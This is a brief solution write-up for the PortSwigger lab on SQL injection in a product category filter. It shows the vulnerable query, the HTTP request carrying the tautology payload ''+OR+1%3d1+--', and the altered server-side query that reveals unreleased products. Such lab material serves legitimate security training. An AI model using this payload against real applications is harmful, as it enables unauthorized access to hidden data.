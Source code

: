 # [Lab: SQL injection vulnerability in WHERE clause allowing retrieval of hidden data](https://portswigger.net/web-security/sql-injection/lab-retrieve-hidden-data)

## Lab

This lab contains an SQL injection vulnerability in the product category filter. When the user selects a category, the application carries out an SQL query like the following:

```sql
SELECT * FROM products WHERE category = 'Gifts' AND released = 1
```

To solve the lab, perform an SQL injection attack that causes the application to display details of all products in any category, both released and unreleased.

## Exploit

```http
GET /filter?category='+OR+1%3d1+-- HTTP/1.1
...
```

the server-side query:

```sql
SELECT * FROM products WHERE category = '' OR 1=1 --' AND released = 1`
```
